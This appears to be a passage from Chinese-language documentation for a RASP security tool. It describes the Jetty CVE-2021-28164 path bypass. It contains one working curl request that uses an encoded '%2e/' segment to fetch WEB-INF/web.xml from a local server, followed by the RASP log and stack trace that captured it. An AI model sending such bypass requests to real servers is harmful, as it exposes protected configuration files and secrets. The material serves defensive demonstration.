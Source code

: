 
### 使用%2e/来绕过限制下载web.xml
```shell
curl -v 'http://localhost:8080/study/%2e/WEB-INF/web.xml'
```

![img.png](docs/.vuepress/public/images/case/CVE-2021-28164/WEB-INF2.png)


## RASP防护
rasp拦截调用参数和栈
```json
{
    "protocol":"HTTP/1.1",
    "method":"GET",
    "remoteHost":"[0:0:0:0:0:0:0:1]",
    "requestURI":"/study/%2e/WEB-INF/web.xml",
    "stackTrace":[
        "java.io.File.<init>(File.java:275)",
        "sun.nio.fs.AbstractPath.toFile(AbstractPath.java:96)",
        "org.eclipse.jetty.util.resource.PathResource.getFile(PathResource.java:424)",
        "org.eclipse.jetty.server.CachedContentFactory.getMappedBuffer(CachedContentFactory.java:355)",
        "org.eclipse.jetty.server.CachedContentFactory$CachedHttpContent.getDirectBuffer(CachedContentFactory.java:596)",
        "org.eclipse.jetty.server.HttpOutput.sendContent(HttpOutput.java:1346)",
        "org.eclipse.jetty.server.HttpOutput.sendContent(HttpOutput.java:1225)",
        "org.eclipse.jetty.server.ResourceService.sendData(ResourceService.java:728)",
        "org.eclipse.jetty.server.ResourceService.doGet(ResourceService.java:294)",
        "org.eclipse.jetty.servlet.DefaultServlet.doGet(DefaultServlet.java:449)"
    ],
    "localAddr":"[0:0:0:0:0:0:0:1]",
    "parameterMap":{

    },
    "remoteAddr":"[0:0:0:0:0:0:0:1]"
}
```
### RASP截获的文件日志非常多如何做防护？
